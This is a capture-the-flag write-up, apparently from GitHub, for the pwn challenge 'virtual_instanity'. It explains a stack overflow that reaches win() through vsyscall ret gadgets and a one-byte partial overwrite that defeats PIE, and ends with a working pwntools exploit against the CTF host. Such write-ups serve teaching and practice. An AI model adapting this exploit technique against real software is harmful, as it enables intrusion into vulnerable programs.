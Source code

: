 ![Screenshot 2025-02-26 113030](https://github.com/user-attachments/assets/fd4721d4-694d-45c0-9e46-d799995012e0)
\
I didn't solve this problem on time but i think this problem really testing our fundamental understanding in pwning (IMO). We will see why.

# NOTE :
Author said there's no need of bruteforcing in this challenge and also the challenge is not dependent in libc.
And also if **vsyscall** is not enabled in your machine please refer to [this](https://helpcenter.onlyoffice.com/installation/mail-enabling-vsyscall.aspx) article.

# Technique = Ret2win (with **vsyscall** gadget)

## 1. Checking given file.
Given a zip file that contains 2 files which are _chall_ and _src.c_
```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>

void win() {
    printf("IMPOSSIBLE! GRAHHHHHHHHHH\n");
    puts(getenv("FLAG"));
}

int main() {
    char buf[0x20];
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    puts("You pathetic pwners are worthless without your precious leaks!!!");
    read(0, buf, 0x50);
}
```

Checking binary protection.
```bash
[*] '/home/relster/Desktop/ctf/trx/pwn/virtual_instanity/dist/chall'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

As we can see this challenge looks pretty simple at first glance, it looks like a simple ret2win challenge. But the problem now is, how do we return to the win function? there's no leak and PIE is enabled. The short answer is we can make use of the gadget available at _vsyscall_, so the gadget that we're gonna need is just a simple _ret_ gadget and we can find that by jumping to _vsyscall_'s address which located at fixed address at _0xffffffffff600000_, the instructions are somewhat look like this:
```asm
__vsyscall_page:
    mov $__NR_gettimeofday, %rax
    syscall
    ret
```
Now we have a _ret_ gadget, so the next technique/step is partially overwriting the return address in stack to **win()** function. We will see clearly what i mean in the next step.


## 2. Analyzing Binary in GDB.
First let's set breakpoints at these addresses to check the stack before and after we send our junk input:\
![image](https://github.com/user-attachments/assets/e6038c13-52ec-4099-9faf-d6d3e93262fa)

Stack layout **before** junk input:\
![image](https://github.com/user-attachments/assets/ebfefe95-2084-47db-bff6-78fdc8198be3)

Stack layout **after** junk input:\
![image](https://github.com/user-attachments/assets/e89883f6-0787-40b8-8d03-60628b91ed55)
![image](https://github.com/user-attachments/assets/76042d39-89bf-4731-b628-65f20fb957e7)

We can see our junk input (**0x41**s) are there on the stack.

Now let's put our attention at these addresses: \
**0x00007ffff7dd4d68** <-- __libc_start_call_main+120 \
**0x00005555555551da** <-- main\
![image](https://github.com/user-attachments/assets/de193c74-7b31-4159-9e50-2a9268215589)

So the buffer is 0x20 (32 bytes) + 8 bytes (RBP) and the 41st byte is the rip, here we can just put the address of _vsyscall_ twice until it reaches the address **0x00005555555551da** which located on the stack as well. \
![image](https://github.com/user-attachments/assets/bf8c0d9e-7861-4ee0-9dfd-982df416a60b)

After that we just need to partially overwrite 1 more byte to the **main** function that located there, we will overwrite it with the byte '**\xa9**', why? let's take a look at the image below: \
![image](https://github.com/user-attachments/assets/40d8d997-d943-4a5c-ba56-21c3ef40a9f0) \
Since the address of **main** and **win** is only different at their last 1 byte, we can just overflow that '**\xa9**' so that the address of **main** gets overwrite with **win**.

Let's first setup the fake flag in our environment variable for testing the exploit. We'll call the env as **FLAG** like in the binary itself.
```bash
export FLAG="FLAG{fake_flag_DEADBEEF}"
```

## 3. Final Exploit
```python
#!/usr/bin/env python

from pwn import *

context.arch = 'amd64'
#context.log_level = 'DEBUG'

TARGET = './chall'
HOST = 'virtual.ctf.theromanxpl0.it'
PORT = 7011

elf = ELF(TARGET)
#libc = ELF('./libc.so.6')
#ld = ELF("./ld-2.27.so")

if not args.REMOTE:
  p = process(TARGET)
else:
  p = remote(HOST, PORT)

gdb_script = f"""
    break *main
"""
#gdb.attach(p, gdbscript=gdb_script)

# ===================================== #

"""
0xffffffffff600000 0xffffffffff601000 r-xp     1000      0 [vsyscall]

0xffffffffff600000:  mov    rax,0x60
0xffffffffff600007:  syscall
0xffffffffff600009:  ret
"""

p.recvline()

payload = b'A' * 0x28
payload += p64(0xffffffffff600000) * 2
payload += b'\xa9'

p.send(payload)

p.interactive()
p.close()

# NOTE:
# ret2win (with vsyscall gadget)
```

## 4. Result
Local:\
![image](https://github.com/user-attachments/assets/05cec976-dfdb-4151-b00d-d370df15be06)

Remote:\
![image](https://github.com/user-attachments/assets/f42c924e-4d21-4759-a462-9da782aef849)

## Keyword
ret2win \
vsyscall \
partial address overwrite
